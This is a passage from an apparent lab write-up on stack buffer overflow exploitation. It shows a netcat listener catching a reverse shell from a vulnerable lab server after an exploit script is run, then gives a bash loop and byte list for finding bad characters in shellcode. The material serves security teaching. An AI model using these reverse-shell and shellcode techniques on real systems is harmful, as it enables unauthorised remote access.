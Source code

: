 ## Executing Exploit

Let's now fire up a netcat listener on `192.168.99.2:443` to catch a reverse shell incoming from the vulnerable server `192.168.99.3`:

```
nc -lvp 443
```

...and fire our exploit at the server running the vulnerable program:

```
python exploit.py
```

Below shows how netcat receives a reverse shell, concluding that the vulnerable program's stack was successfully overflowed and program's execution flow was subverted, which resulted in our shellcode getting executed, giving us the reverse shell:

![Stack is overflowed and shellcode is executed, resulting in a reverse shell](../../../.gitbook/assets/executing-exploit.gif)

## Finding Bad Characters

Bad characters in the context of buffer overflow exploitation refers to the characters that cannot be used in the shellcode as they would interfere with the vulnerable program and most likely make it crash.

Although in this lab we did not have to deal with bad characters, below provided are some guidelines on the general process of how to identify bad characters and how to deal with them.

### Generate Bad Characters String

Generate a list of all possible bad characters using bash:

```bash
for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

...which results in the following:

```
x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

![String of characters for identifying bad characters](<../../../.gitbook/assets/image (830).png>)
